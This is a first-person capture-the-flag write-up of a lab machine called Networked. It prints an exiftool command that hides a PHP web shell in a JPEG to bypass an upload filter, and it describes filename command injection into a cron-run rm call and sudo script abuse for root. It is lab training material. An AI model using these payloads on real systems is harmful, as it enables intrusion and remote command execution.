
Website is really basic
/backup page gives us a backup.tar file with the source code of the webpages
index.php lib.php photos.php upload.php

Upload.php directory but we can only upload image files

photos.php shows us everything we upload

I tried a bunch of different uploads trying to bypass the upload filter but couldnt get anything. Eventually I injected an image file with php code using exiftool and i now have RCE.
exiftool -DocumentName="<h1>Testing<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" dog.jpeg
If i upload dog.jpeg on its own it just shows the picture, if i upload dog.php.jpeg it runs the php code and now i have RCE.
This post explains how it works - https://thecyberjedi.com/php-shell-in-a-jpeg-aka-froghopper/

Reverse shell as apache
This is just a normal bash shell with the payload URL encoded

on gullys desktop there is a check_attack.php file which we can exploit
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
$value is determined by the file name in /var/www/html/uploads
We can exploit this by making a file and adding code injection at the end.
example
file.php;whoami
this script would execute file.php and end the command with ; and start the new command whoami
The problem I had was whenever you try to create a file with ; in it, it would end the command as its supposed to do.
I tried everything I could think of but couldnt get a shell going.
The proper way to do it was by specifying the full path to the directory, all in quotes and this worked. Thanks 0xdf


I created an ssh folder so I could ssh in as guly

User guly may run the following commands on networked:
(root) NOPASSWD: /usr/local/sbin/changename.sh
the script has us enter different names but we are able to enter commands. I figured this out by just entering commands and I saw it was actually trying to execute them.

I had actually tried this on my very first attempt but I didnt include bash at the start so it didnt work.

Fun machine, it took me about 1 week from start to finish, i took a lot of breaks though.